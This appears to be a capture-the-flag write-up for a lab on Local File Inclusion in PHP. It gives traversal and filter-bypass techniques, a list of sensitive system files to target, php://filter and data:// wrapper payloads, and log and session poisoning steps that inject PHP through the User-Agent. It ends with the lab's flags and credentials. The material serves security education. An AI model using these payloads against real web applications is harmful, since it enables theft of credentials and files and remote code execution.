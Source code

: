 # Patch Management is Hard
### Category: Web Exploitation

Covers the basics of a Local File Inclusion (LFI) Vulnerability, including how to identity and test for LFI


#### What is LFI Vulnerability
An `LFI` vulnerability is found in various web apps. Ex) In PHP, the following functions cause this vulnerability

- `include`
- `require`
- `include_once`
- `require_once`

Allows atackers to include and read local files on thes server. An `LFI` vulnerability occurs with a developer's lack of security awareness.

#### What is the risk of LFI?
One of the most significant risks is leaking of sensitive data if an attacker can gain access to that sensitive data. Sometimes can be upgraded and chained to `RCE` (Remote Code Execution). 

#### Identifying and Testing for LFI
Attackers are usually interested in HTTP parameters to manipulate the input and inject payloads to see on the web app behaves. An entry point could be HTTP `GET` or `POST` parameters that pass an argument or data to the web server.

http://webapp.thm/get.php?file=userCV.pdf

**http://** -> Protocol
**webapp.thm** -> Domain Name
**get.php** -> File name
**?** -> Query string begin
**file** -> parameters

Once you find an entry point, we need to understand how this data could be processed within the application. The following example of PHP code is vulnerability to LFI

```scheme
<?PHP
	include($_GET["file"]);
?>
```

The PHP code uses a `GET` request via the URL parameter *file* to include the file on thep age. 

Other entry points can be used depending on the web app, including *User-Agent*, *Cookies*, *session*, and other HTTP headers

Now that we have the entry point, let's test for reading local files on the system. In Linux, some files that have sensitive information

- */etc/issue*
- */etc/passwd*
- */etc/shadow*
- */etc/group*
- */etc/hosts*
- */etc/motd*
- */etc/mysql/my.cnf*
- */proc/[0-9]*/fd/[0-9]*
- */proc/self/environ*
- */proc/version*
- */proc/cmdline*

###### Techniques to try...
- A direct file inclusion such as `/etc/passwd`
- using `..` to get out of the current directory
- Bypassing filters using `....//`
- URL encoding techniques (such as double encoding)

#### Exploiting LFI
Exploiting LFI is sometimes limited and depends on the web app server configuration. Besides reading sensitive data, remove code execution is something we want. If we're dealing with a PHP web app, then we can use a PHP-supported Wrapper.

#### PHP Filter
The PHP filter wrapper is used in LFI to read the actual PHP page content. Normally it's not possible to see the actual contents of the PHP on a page. Use a PHP filter to display the contents of PHP files in  other encoding formats such as `base64` or `ROT13`

#### PHP DATA
The PHP wrapper is used to include raw plain text or base64 encoded data. It is used to include images on the current page. It is being used in LFI exploit

```scheme
echo "AoC3 is fun!" | base64
```

```scheme
http://example.thm.labs/page.php?file=data://text/plain;base64,QW9DMyBpcyBmdW4hCg==
```

#### LFI to RCE via Log files
Also called a log poisoning attack. If you can cause what you want to be executed to show up in the log files, then request that page it will execute.

The log page stores four different headers, including the *username*, *IP address*, *User-Agent*, and the visited page. The `User-Agent` is an HTTP header that includes the user's browsers information to let servers identify the type of OS, vendor, and version. The `User-Agent` is one of the HTTP headers that the user can control. We need to include PHP code into the `User-Agent` to get RCE.

Testing to see if it shows in the logs
```scheme
curl -A "Testing" http://10-10-241-126.p.thmlabs.com/login.php
```
Log file updated
```scheme
Guest:172.17.0.1:Testing:/login.php
```

Injecting PHP code into the User-Agent
```scheme
curl -A "<?php phpinfo();?>" http://10-10-241-126.p.thmlabs.com/login.php
```

#### LFI to RCE via PHP Sessions
Follows the same technique as the log poisoning technique. PHP sessions are files within the OS that store temporary information. After the user logs out of the web app, the PHP session ifnormation will be deleted. This technique requires enumeration to read the PHP configuration first. Common locations where PHP stores this data
```scheme
C:\Windows\Temp
/tmp/
/var/lib/php5
/var/lib/php/session
```

This specific web app, it stores the PHP sessions in the `/tmp` directory. It also stores the value of the username into the session even if you are not logged in since this value is needed by the developer to use it in the logs function. We injec the PHP code into the user section in the following way

```scheme
Username:
<?php phpinfo();?>
Password:
asdf
```

Default naming schema for PHP is to do `sess_<SESSION_ID>` so if the cookie value is `vc4567al6pq7usm2cufmilkm45` therefore the file stored in `/tmp` will be `sess_vc4567al6pq7usm2cufmilkm45`. Now we can use LFI to call the session file.

## Question 1
##### What is the entry point for our web application?
The HTTP paramter `err` is set to grab the file to display

## Question 2
##### Use the entry point to perform `LFI` to read `/etc/flag`
Used the directory traversal technique `../../../../etc/flag`

THM{d29e08941cf7fe41df55f1a7da6c4c06}

## Question 3
##### Use PHP filter technique to read source code of `index.php`

`index.php?err=php://filter/convert.base64-encode/resource=index.php`

Returns *base64* encoded string. When decoded reveals the *$flag* variable.

THM{791d43d46018a0d89361dbf60d5d9eb8}

## Question 4
##### Find McSkidy's missing credentials
In `index.php` the source code shows that the file `creds.php` is included in the path `./includes/creds.php`. The same technique is used to spit out the source code in encoded *base64* and then decoded to find his credentials.

`php://filter/convert.base64-encode/resource=./includes/creds.php`

```scheme
<?php 
$USER = "McSkidy";
$PASS = "A0C315Aw3s0m";
```

## Question 5
##### Use McSkidy's credentials to login and find server password
`flag.thm.aoc` server -> THM{552f313b52e3c3dbf5257d8c6db7f6f1}


## Question 6
##### Use the LFI to gain RCE via the log file page. What is hostname?
The log file is located at `./includes/logs/app_access.log`

payload
```scheme
curl -A "<?php echo php_uname('n');?>" http://...
```

hostname -> lfi-aoc-awesome-59aedca683fff9261263bb084880c965


## Bonus
##### Use current PHP configuration stores the PHP session in `/tmp`. Use the LFI to call the PHP session file to get PHP code executed


